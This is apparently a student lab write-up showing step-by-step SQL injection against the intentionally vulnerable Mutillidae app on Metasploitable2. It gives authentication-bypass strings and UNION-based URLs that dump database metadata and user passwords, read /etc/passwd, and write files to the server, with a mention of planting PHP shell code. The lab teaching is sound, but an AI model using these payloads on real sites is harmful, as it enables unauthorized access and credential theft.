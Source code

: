 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![280733625-4a15545a-d946-4031-8dfe-d1469d743301](https://github.com/Aakash0407/sqlinjection/assets/118799103/2fd1cd2a-a223-4d1a-acd4-3ec1bae620da)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![280733888-716e9eba-4725-46c1-a327-9c62708ac1e9](https://github.com/Aakash0407/sqlinjection/assets/118799103/af22e478-7e90-4829-8e82-181d859bf640)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![280733988-a1d37233-9611-45eb-b707-d0b39afab99b](https://github.com/Aakash0407/sqlinjection/assets/118799103/0ee350c8-7e57-4690-9a10-ea9f0be22ad6)
Click on the menu Login/Register and register for an account
![280734126-e35398b4-9245-459e-b16d-31c4a926b56a](https://github.com/Aakash0407/sqlinjection/assets/118799103/5e8095c1-64b9-440a-ab78-735bae04acb6)
Click on the link “Please register here” 
![280734264-d010b01e-f1d1-4d59-bf47-c17f8795e92a](https://github.com/Aakash0407/sqlinjection/assets/118799103/cff48114-5c15-4f3a-8c7c-bfbe98b82956)
Click on “Create Account” to display the following page:
![280734451-0aec6c4d-ac55-4614-893d-1459a1f65c6a](https://github.com/Aakash0407/sqlinjection/assets/118799103/909fce88-5e6b-4d53-96a1-b5b018803de7)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![280734553-3f367d29-88b3-4c4d-ad96-9e8e17b320b7](https://github.com/Aakash0407/sqlinjection/assets/118799103/85548a9a-6d4c-494a-ba31-6d76adea0dc6)

Click “Login”. The logged in page will show as below:
![280734633-02c2f7b1-a819-4d73-80f4-70a09ebe6453](https://github.com/Aakash0407/sqlinjection/assets/118799103/b0814849-5d48-43a4-9c17-0d1bbd19bb32)

## Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![280734724-6d18f748-bb0a-459c-8780-be45224cfab0](https://github.com/Aakash0407/sqlinjection/assets/118799103/58a7bf3e-73b3-443c-9a84-e8758c874645)

Click the login button and you will see it enter into the administrator page.
![280734785-0101f9bd-2c1a-4f3a-8235-04589de26a0b](https://github.com/Aakash0407/sqlinjection/assets/118799103/819eeaae-3b75-4e90-87d0-8c9993a6994b)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![280734938-e094a740-ed30-4263-8d92-470e5e55102e](https://github.com/Aakash0407/sqlinjection/assets/118799103/c70a86a4-b4ee-4344-9ad8-e78e7c59ccf3)
![280734997-721c4c81-add1-42bc-9dba-139670f99883](https://github.com/Aakash0407/sqlinjection/assets/118799103/5a678ed3-b237-4037-984c-93c12d3d0922)
![280735124-77321afa-3568-46af-ad02-d551d966fabf](https://github.com/Aakash0407/sqlinjection/assets/118799103/94cb4773-3699-4ad5-ad93-d0a91c5f28dc)
![280735150-8d7e8361-297a-4628-bec9-3f6ca0557f9f](https://github.com/Aakash0407/sqlinjection/assets/118799103/6e8ae782-6f7a-416a-a48a-4785492b3e6f)
![280735170-cf0eed7e-cb51-42fe-b81f-50a3c0c8eff1](https://github.com/Aakash0407/sqlinjection/assets/118799103/7f47e7d5-168a-48b5-853b-a92fa181a45f)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![280735235-9e875685-d903-42ab-a94f-971f5fde92c8](https://github.com/Aakash0407/sqlinjection/assets/118799103/0012dbd9-6e50-419d-9532-bb3adf041122)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![280735334-dee4a69f-8908-4783-9ea9-653380b2f774](https://github.com/Aakash0407/sqlinjection/assets/118799103/9e519caa-f9c3-4f88-917e-32ef89dc1755)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![280735394-95d0ada5-4ac6-4ac3-965e-2a4e355face5](https://github.com/Aakash0407/sqlinjection/assets/118799103/696647a7-e8f6-43a4-8f1a-af4e0fcfdff0)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 
![280735462-5fdd0bc3-a864-49c1-b52b-0f99af21ee28](https://github.com/Aakash0407/sqlinjection/assets/118799103/dd0d4035-cf5a-4fa1-92d5-b56999d86175)

As it is having 5 columns the query worked fine and it provides the correct result
![280735525-8b167303-5c75-4f29-8a92-02502ffc3dae](https://github.com/Aakash0407/sqlinjection/assets/118799103/f8d50267-2075-4a4f-8cef-23adcb13751a)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![280735565-9c069767-0b4b-479c-9933-c8522b271a94](https://github.com/Aakash0407/sqlinjection/assets/118799103/b2e1a813-b602-466f-8fbd-68b38e296a95)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![280735696-d7f3fa30-5de9-4f07-85ef-12970758b690](https://github.com/Aakash0407/sqlinjection/assets/118799103/6cd32012-74b6-4973-9d18-6134272966f8)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![280735889-0877220e-86b4-4257-81a2-4276f2d4a4cb](https://github.com/Aakash0407/sqlinjection/assets/118799103/a2d8783b-0597-442f-9479-ccfa7a5b061b)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![280735968-af8e7700-bc67-410a-88d6-f356d882e626](https://github.com/Aakash0407/sqlinjection/assets/118799103/6c11c228-b0fb-4357-9fb3-665ce5e53d6b)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![280736042-d14eb27d-41a1-4ba3-9776-16fb5585588d](https://github.com/Aakash0407/sqlinjection/assets/118799103/fb983bc6-d186-43ec-b423-e8f0d9d1b1a9)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![280736082-e7aa1889-af16-44fc-99b9-221e389a5db4](https://github.com/Aakash0407/sqlinjection/assets/118799103/f82920c5-104b-487b-8b90-24aef8f0d6d5)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![280736123-14790d68-e91d-46f6-b071-92e143a8b894](https://github.com/Aakash0407/sqlinjection/assets/118799103/0e442fb8-394e-4b8a-bd44-fc70f84a6ab8)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![280736280-b4044c51-49cf-4e43-abec-9748a04d298f](https://github.com/Aakash0407/sqlinjection/assets/118799103/b35f58f7-0446-4809-bc99-4262c2cff1a3)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
